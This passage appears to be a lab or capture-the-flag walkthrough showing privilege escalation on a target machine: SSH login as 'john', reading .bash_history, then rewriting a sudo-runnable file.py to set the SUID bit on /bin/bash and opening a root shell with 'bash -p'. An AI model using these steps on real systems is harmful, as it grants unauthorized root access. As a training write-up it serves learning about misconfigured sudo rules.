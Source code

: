 ### **- Now we will connect via SSH**
```bash
ssh john@192.168.1.117
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e6c191b1-5464-40bb-9f81-5116198f6563"></picture><br>We are in!</h3>

### **Once inside the machine of the user “john” we will now look for clues as to what the user has been doing to get an idea of how we can elevate our privileges.
Our first step will be to check the .bash_history as this will give us an idea of how the user works.**
```bash
cat .bash_history
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/c639148a-9675-4c7c-9738-844cc2e4478d"></picture></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/dea13655-895e-4b61-9c1d-8d101f302551"></picture><br>clearly we can see how this is done using the file 'file.py' since python can be used without root permissions</h3>

### **- Now we have to modify the file “file.py” so that when we execute it, it elevates our privileges and we can be “root”.**
```bash
nano file.py
```
```bash
import os

os.system("chmod u+s /bin/bash")
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/614b8136-73cb-48a0-ba1c-a735da3e498e"></picture></h3>

### **- We execute the ''file.py''**
```bash
sudo /usr/bin/python3 /home/john/file.py
bash -p
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/67a43a3f-70a9-48ab-8280-b83050e677ca"></picture><br>We are in!</h3>
